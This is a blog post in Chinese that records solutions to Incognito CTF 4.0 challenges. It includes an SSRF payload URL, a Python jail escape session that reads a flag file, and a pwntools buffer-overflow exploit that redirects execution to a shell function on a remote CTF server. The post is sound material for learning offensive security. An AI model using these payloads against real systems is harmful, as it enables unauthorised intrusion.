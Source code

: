 ```yaml
---
title: Incognito CTF 4.0
date: 2023-02-18 20:18:45
tags: ['CTF', 'Python']
categories: ['Competition']
description: Incognito CTF 解題紀錄
---
```


## Web

### Get flag 1
SSRF `?url=http://0.0.0.0:9001/flag.txt`

### Low on options
根據題目提示用OPTIONS request得到`As I said, I am low on options...`。 ~~一句廢話~~
![](loo-options.png)
索性把所有method全部試一次，PROPFIND request拿到flag。
![](loo-propfind.png)

## Crypto

### Ancient
拿到一個缺header的png檔，將header補上後得到有象形文字的圖片，以圖搜圖查到是十三世紀的一種記數方式，用[此網站](https://www.dcode.fr/cistercian-numbers)轉成數字對照Ascii table便可拿到flag。
![](challenge.png)

## Pyjail

### The only jail
nc進去發現是一個偽裝過的Python環境，有過濾一些像斜線、反斜線、大括號等字元，用os的path join便可湊出路徑用讀取flag。
```python
Welcome to the IIITL Jail! Escape if you can
jail> import os
jail> print(os.listdir())     
['opt', 'srv', 'tmp', 'lib', 'bin', 'media', 'lib64', 'dev', 'sys', 'home', 'libx32', 'root', 'var', 'run', 'etc', 'sbin', 'lib32', 'usr', 'boot', 'mnt', 'proc', '.dockerenv', 'start.sh']
jail> print(os.listdir("home"))
['ctf']
jail> path = os.path.join("home", "ctf")
jail> print(os.listdir(path))
['.bash_logout', '.bashrc', '.profile', 'flag.txt', 'jail.py']
jail> path = os.path.join(path, "flag.txt")
jail> flag = open(path)
jail> print(flag.read())
ictf{ff8ab219-a90b-44f8-9273-ccc13766f2eb}
jail> 
```

## Rev

### Meow
flag藏在.rodata

## Pwn

### Baby Flow
checksec什麼都沒開，BOF把return address置換成get_shell的即可。
```python
from pwn import *

#conn = process('./babyFlow')
conn = remote('143.198.219.171', 5000)

payload = b'A'*20 + p32(0x80491fc)

conn.recvuntil('can you pass me?\n')

conn.sendline(payload)

conn.interactive()
```
